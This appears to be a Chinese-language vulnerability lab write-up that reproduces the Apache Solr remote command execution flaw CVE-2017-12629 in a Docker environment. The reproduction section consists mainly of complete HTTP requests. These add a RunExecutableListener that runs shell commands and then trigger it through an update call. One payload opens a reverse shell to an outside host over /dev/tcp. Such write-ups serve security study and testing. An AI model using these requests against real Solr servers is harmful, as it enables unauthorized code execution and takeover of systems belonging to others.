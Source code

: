 # Apache Solr 远程命令执行漏洞 CVE-2017-12629

## 漏洞描述

漏洞原理与分析可以参考：

- https://www.exploit-db.com/exploits/43009/
- https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：[XML实体扩展漏洞（XXE）](https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-XXE)和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境测试RCE漏洞。

## 环境搭建

Vulhub运行漏洞环境：

```
docker-compose up -d
```

命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

![image-20220301111215342](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011112418.png)

## 漏洞复现

首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```
POST /solr/demo/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"new_listener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/awesome_poc"]}}
```

![image-20220301111449684](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011114799.png)

然后进行update操作，触发刚才添加的listener：

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

![image-20220301111552786](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011115847.png)

执行`docker-compose exec solr bash`进入容器，可见`/tmp/awesome_poc`已成功创建：

![image-20220301111641749](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011116817.png)

执行反弹shell命令：

```
POST /solr/demo/config HTTP/1.1
Host: your-vps-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 192

{"add-listener":{"event":"postCommit","name":"newlistener_bash","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1"]}}
```

然后进行update操作，触发刚才添加的listener：

```
POST /solr/demo/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

成功接收反弹shell：

![image-20220301112041937](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011120015.png)